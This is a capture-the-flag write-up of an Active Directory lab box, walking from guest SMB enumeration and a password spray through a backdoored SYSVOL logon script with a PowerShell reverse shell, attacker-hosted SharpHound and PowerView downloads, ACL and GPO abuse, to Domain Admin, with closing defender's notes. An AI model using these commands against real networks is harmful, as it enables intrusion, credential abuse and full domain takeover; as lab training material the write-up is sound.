


BabyTwo is an Active Directory box (baby2.vl). Nothing here is a memory-corruption exploit — it is a chain of configuration and ACL mistakes, which is exactly how real AD estates fall. A guest-readable share hands over a user list, a username-equals-password habit gives the first login, a writable logon script in SYSVOL catches a live user, and from there ACL abuse and GPO abuse walk straight to Domain Admin.
Attack chain at a glance
- Recon — standard DC port set; domain
baby2.vl, DCdc.baby2.vl. - User list — the
guestaccount reads thehomesshare, whose folders are the domain usernames. - Foothold — a username=password spray (weak password policy) validates
Carl.Mooreandlibrary. - Lateral —
Carl.Moorecan write the SYSVOL logon script; backdoor it to catchAmelia.Griffithswhen she logs on. - Escalation — BloodHound shows Amelia can rewrite the ACL on
gpoadm(ACL abuse); reset its password, then use its GPO edit rights (GPO abuse) to add it to local Administrators on the DC. - Domain Admin — WinRM in as
gpoadm; root flag.
Reconnaissance
The port set is the fingerprint of a domain controller — Kerberos (88), LDAP (389/636/3268/3269), SMB (445), the works. SMB signing is enabled and required, which quietly rules out an NTLM relay path later.
nmap -Pn 10.129.2.55 -p53,88,135,139,389,445,464,593,636,3268,3269,3389 -sCV
88/tcp kerberos-sec Microsoft Windows Kerberos (server time: ...Z)
389/tcp ldap Microsoft Windows Active Directory LDAP
| Domain: baby2.vl, Site: Default-First-Site-Name
445/tcp microsoft-ds
3389/tcp ms-wbt-server
| DNS_Computer_Name: dc.baby2.vl
|_ smb2-security-mode: Message signing enabled and requiredEnumeration — a free user list
AD often lets the built-in guest (or a null session) read more than it should. Here guest can enumerate shares, and two are writable — but the immediately useful one is homes, whose per-user folders are the domain's user list:
netexec smb 10.129.2.55 -u guest -p '' --shares
Share Permissions Remark
----- ----------- ------
apps READ
homes READ,WRITE
NETLOGON READ Logon server share
SYSVOL Logon server share
smbclient //10.129.2.55/homes -U guest
smb: \> ls
Amelia.Griffiths Carl.Moore Harry.Shaw Joan.Jennings
Joel.Hurst Kieran.Mitchell library Lynda.Bailey
Mohammed.Harris Nicola.Lamb Ryan.JenkinsSave those names to a file. The cheapest credential attack against a fresh user list is to try each name as its own password — lazy provisioning leaves these behind constantly. --no-bruteforce pairs line i of the user file with line i of the password file (one try each) instead of a full cross-product, so it is quiet:
nxc smb 10.129.2.55 -u bab2users.txt -p bab2users.txt --no-bruteforce --continue-on-success
[+] baby2.vl\Carl.Moore:Carl.Moore
[+] baby2.vl\library:libraryLateral movement — a writable logon script
Carl.Moore can write to SYSVOL, the domain-wide share that every machine reads at boot and logon. Its scripts folder holds a logon script that maps drives for users as they sign in:
netexec smb 10.129.2.55 -u 'Carl.Moore' -p 'Carl.Moore' --shares
SYSVOL READ (but the scripts folder is writable — verify by browsing)
smbclient -U 'Carl.Moore%Carl.Moore' //baby2.vl/SYSVOL
smb: \> cd baby2.vl\scripts\
smb: \baby2.vl\scripts\> get login.vbsA logon script is remote code execution with someone else's identity — it runs as whichever user logs on next. Append a line that launches a base64-encoded PowerShell reverse shell (encoded so quoting survives the VBScript string), then overwrite the file:
' --- appended to login.vbs ---
CreateObject("WScript.Shell").Run "powershell -e JABjAGwAaQBlAG4AdAAg...<b64 reverse shell to 10.10.14.138:9001>...", 0, True
smb: \baby2.vl\scripts\> del login.vbs
smb: \baby2.vl\scripts\> put login.vbsStart a listener and wait for a user to log on. Shortly, Amelia.Griffiths does, and her session runs our line:
nc -lvnp 9001
connect to [10.10.14.138] from (UNKNOWN) [10.129.2.55]
PS C:\Windows\system32> whoami
baby2\amelia.griffiths
Mapping the domain with BloodHound
With an interactive foothold, collect the graph. SharpHound is staged over an HTTP server (certutil as the downloader), run in-memory, and the resulting zip is carried back out by base64-encoding it with certutil — handy when you have a shell but no file transfer:
certutil -urlcache -split -f http://10.10.14.31:5555/SharpHound.ps1 sharp.ps1
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\sharp.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\temp
certutil -encode C:\temp\<ts>_BloodHound.zip bh.txt # transfer bh.txt, then:
# base64 -d bh.b64 > bh.zip && unzip bh.zip -> import into BloodHound
Escalation — ACL abuse then GPO abuse
BloodHound shows Amelia can grant herself rights over gpoadm and reset its password — a straight DACL-to-password-reset primitive via PowerView:
iex (iwr -usebasicparsing http://10.10.14.31:5555/PowerView.ps1)
Add-DomainObjectAcl -Rights All -TargetIdentity gpoadm -PrincipalIdentity Amelia.Griffiths
$cred = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword gpoadm -AccountPassword $cred
nxc smb 10.129.2.55 -u gpoadm -p 'Password123!'
[+] baby2.vl\gpoadm:Password123!The name is a hint: gpoadm has edit rights over a Group Policy Object. Write access to a GPO linked to the domain (or to the DCs OU) is domain-wide code execution — anything you put in the policy is applied by every machine in scope, as SYSTEM. pyGPOAbuse implements this by creating an immediate scheduled task inside the GPO; the simplest payoff is adding our account to the DC's local Administrators:
python3 pygpoabuse.py baby2.vl/GPOADM:'Password123!' \
-gpo-id 31B2F340-016D-11D2-945F-00C04FB984F9 \
-command 'net localgroup administrators GPOADM /add' -f
[+] ScheduledTask TASK_b624ac9b created!
# force the policy to apply (or wait for the refresh cycle):
gpupdate /forcenet localgroup Administrators
Administrator
Domain Admins
Enterprise Admins
gpoadm <- us
nxc smb dc.baby2.vl -u gpoadm -p 'Password123!'
[+] baby2.vl\gpoadm:Password123! (Pwn3d!)(Pwn3d!) means local admin on the DC — effectively Domain Admin. WinRM in and take the flag:
evil-winrm -i dc.baby2.vl -u GPOADM -p 'Password123!'
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txtDefender's notes
- Lock down anonymous/guest SMB: it should not enumerate shares or the
homeslisting. - Kill username=password accounts and enforce a real password policy (weak password policy).
- SYSVOL scripts must be writable only by administrators — a writable logon script is domain-wide RCE.
- Audit dangerous ACLs (GenericAll/WriteDacl/ForceChangePassword) with BloodHound on your own estate and remove the ones nobody can justify (ACLs & DACLs).
- Restrict who can edit GPOs and monitor for scheduled-task writes into SYSVOL policy folders (Group Policy).